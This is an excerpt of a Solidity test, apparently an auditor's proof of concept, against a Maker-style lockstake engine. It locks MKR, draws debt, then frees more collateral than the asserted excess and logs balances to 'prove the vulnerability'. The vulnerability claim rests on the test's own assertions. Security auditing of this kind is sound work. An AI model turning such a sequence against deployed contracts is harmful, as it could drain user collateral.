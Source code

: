 ```javascript
        // This assertion shows that more collateral was freed than should be possible
        assertTrue(freed > lockAmount - art, "Vulnerability: Freed more than available excess collateral");

        console.log("Complex sequential operations test completed.");
    }

    function testAccountingErrors() public {
        uint256 initialCollateral = 100 ether;
        uint256 debtAmount = 50 ether;
        uint256 freeAmount = 60 ether;

        // Setup
        GemLike mkrToken = GemLike(address(engine.mkr()));
        console.log("MKR address used by engine:", address(mkrToken));

        // Mint MKR tokens to the test contract
        vm.prank(address(mkrToken));
        mkrToken.mint(address(this), initialCollateral);

        mkrToken.approve(address(engine), type(uint256).max);

        // Open a new urn
        address urn = engine.open(0);

        engine.lock(urn, initialCollateral, 0);
        engine.draw(urn, address(this), debtAmount);

        // Record initial state
        (uint256 inkBefore, uint256 artBefore) = dss.vat.urns(ilk, urn);
        uint256 gemBefore = dss.vat.gem(ilk, urn);
        uint256 mkrBalanceBefore = mkrToken.balanceOf(address(this));

        console.log("Initial ink:", inkBefore);
        console.log("Initial art:", artBefore);
        console.log("Initial gem:", gemBefore);
        console.log("Initial MKR balance:", mkrBalanceBefore);

        // Attempt to free more than what should be allowed
        uint256 freed = engine.free(urn, address(this), freeAmount);

        // Record state after free operation
        (uint256 inkAfter, uint256 artAfter) = dss.vat.urns(ilk, urn);
        uint256 gemAfter = dss.vat.gem(ilk, urn);
        uint256 mkrBalanceAfter = mkrToken.balanceOf(address(this));

        console.log("Final ink:", inkAfter);
        console.log("Final art:", artAfter);
        console.log("Final gem:", gemAfter);
        console.log("Final MKR balance:", mkrBalanceAfter);
        console.log("Freed amount:", freed);

        // Assertions to prove the vulnerability
        assertEq(artAfter, artBefore, "Debt should remain unchanged");
        assertEq(inkAfter, inkBefore - freed, "Collateral in Vat should decrease by freed amount");
        assertEq(gemAfter, gemBefore, "Gem balance in Vat should remain unchanged");
        assertEq(mkrBalanceAfter, mkrBalanceBefore + freed, "MKR balance should increase by freed amount");

        // This assertion proves the vulnerability: more collateral was freed than should be possible
        assertTrue(freed > initialCollateral - debtAmount, "Freed more than the available excess collateral");
```
